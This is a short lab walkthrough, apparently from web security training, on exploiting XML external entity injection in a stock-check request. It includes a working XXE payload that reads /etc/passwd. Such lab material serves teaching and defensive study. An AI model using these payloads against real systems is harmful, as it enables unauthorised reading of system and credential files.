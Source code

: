 # Lab: Exploiting XXE using external entities to retrieve files

> Lab Objective: inject an XML external entity to retrieve the contents of the `/etc/passwd` file.

- Check Stock for any Product, and intercept this request in order to review the response.

- You'll notice that the POST body is in XML Format.
  ![1st screenshot](./attachments/1.png)

- In order to check which data value will be reflected within the response, use this payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE attacker [<!ENTITY xxe "HELLO">]>
<stockCheck>
    <productId>
        1 &xxe;
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

Note: put `&xxe;` in all data value, until `HELLO` is reflected in the response.

- You'll notice that `HELLO` is reflected when using `&xxe;` within `productId` value.
  ![2nd screenshot](./attachments/2.png)

- Therefore, use this payload to retrieve contents of `/etc/passwd` file.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE attacker [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<stockCheck>
    <productId>
        &xxe;
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

- The file content is retrieved successfully.
  ![3rd screenshot](./attachments/3.png)

- The lab is solved successfully.
  ![4th screenshot](./attachments/4.png)

---
